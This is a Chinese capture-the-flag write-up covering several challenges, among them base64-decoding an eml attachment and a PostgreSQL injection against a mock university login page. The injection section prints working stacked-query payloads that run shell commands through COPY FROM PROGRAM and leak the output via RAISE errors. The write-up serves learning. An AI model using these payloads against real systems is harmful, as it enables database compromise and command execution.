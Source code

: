 > 一年前在给某八个键游戏写小工具的时候，Python 位运算不会溢到符号位的问题困扰了我好久。当时我的解决方案是用 Rust ~~因为我不会 C~~ 写出涉及位运算的相关代码，之后再用 `LoadLibrary` 加载进 Python 计算。没想到，`ctypes` 里就有对应的 C 类型 ... 又学到新东西了。

### ✉️ ✅ 邮件系统功能升级

这道题 neta 了上个月的学生邮箱安全演练。

{%image https://imgsrc.baidu.com/forum/pic/item/faedab64034f78f0f10b05d73f310a55b3191c95.jpg %}

{%image https://imgsrc.baidu.com/forum/pic/item/9a504fc2d562853572e04d05d6ef76c6a7ef6396.jpg %}

#### 🐦‍⬛ ✅ admin@trustme.com

题目附件是 `eml` 格式，这个格式我在[新穷铁道](https://geekgame.pku.edu.cn/#/game/misc-erail)就领教过。不过，这次没有用到 `quoted-printable` 编码，只是普通的 base64。解码即可得到 flag。

> trust 牛魔。

#### 🔐 ✅ 统一身份认证

题目伪造了智慧东大的登录网页，使用 PHP + PostgreSQL。一开始我发现密码输入没有检验，想到了是 SQL 注入，但是一顿 MySQL 操作后未果，后来进了二阶段，题目给出提示，才知道是 PostgreSQL。
虽然没办法获取任何 SQL 命令结果，也没有 `nc` 命令用于拿到 Shell，但网页会在错误时直接弹出 PostgreSQL 的报错信息。

拼凑几段报错信息后可以拼出原始的 SQL 查询语句 `INSERT INTO record (username, passsword, time) VALUES ('学号', '密码', NOW());`。通过询问 GPT 得知，可以用 `COPY ... FROM PROGRAM` 在 SQL 语句中运行命令，之后用 `RAISE` 语句在报错信息中显示查询结果。

于是，在密码框中一顿操作拿到 flag。

```postgresql 解题代码
1', NOW()); create table cmd(output text, id serial); insert into record (username, password, time) values ('20240721','1

1', NOW()); copy cmd(output) from program 'cat /flag | base64'; insert into record (username, password, time) values ('20240721','1

1', NOW());
DO $$
DECLARE result TEXT;
BEGIN
    select output into result from cmd order by id desc limit 1;
    RAISE EXCEPTION 'Flag Leaking: %', result;
END;
$$ LANGUAGE plpgsql;
insert into record (username, password, time) values ('20240721','1
```

### 🔨 ⭕ 真正的逆向

#### 🎭 ✅ 假面之下的 Flag

直接 Detect It Easy 起手，在字符串中找到明文 flag。

{%image https://imgsrc.baidu.com/forum/pic/item/58ee3d6d55fbb2fb7c11dc36094a20a44623dcd8.jpg %}

> 孩子，不要破坏 Ave Mujica 的世界观。
